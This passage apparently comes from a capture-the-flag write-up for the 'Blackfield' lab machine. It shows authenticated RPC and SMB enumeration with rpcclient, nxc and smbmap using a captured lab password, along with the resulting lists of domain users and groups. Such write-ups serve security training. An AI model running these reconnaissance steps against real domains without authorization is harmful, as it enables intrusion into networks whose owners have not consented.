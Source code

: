 ## RPC enumeration as user `support`

```bash
rpcclient -U 'support%#00^BlackKnight' blackfield.htb
```

```bash
rpcclient $> enumdomains
name:[BLACKFIELD] idx:[0x0]
name:[Builtin] idx:[0x0]

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[audit2020] rid:[0x44f]
user:[support] rid:[0x450]
user:[BLACKFIELD764430] rid:[0x451]
user:[BLACKFIELD538365] rid:[0x452]
...
user:[BLACKFIELD438814] rid:[0x584]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]

rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]

```
okay, found some valuable info about users and groups, but for our convenience we will later proceed with LDAP enumeration by using bloodhound so we can get a better graphical representation.

## SMB enumeration as user `support`

```bash
nxc smb blackfield.htb  -u 'support' -p '#00^BlackKnight' --shares
#or
smbmap -H blackfield.htb -u 'support' -p '#00^BlackKnight'
```
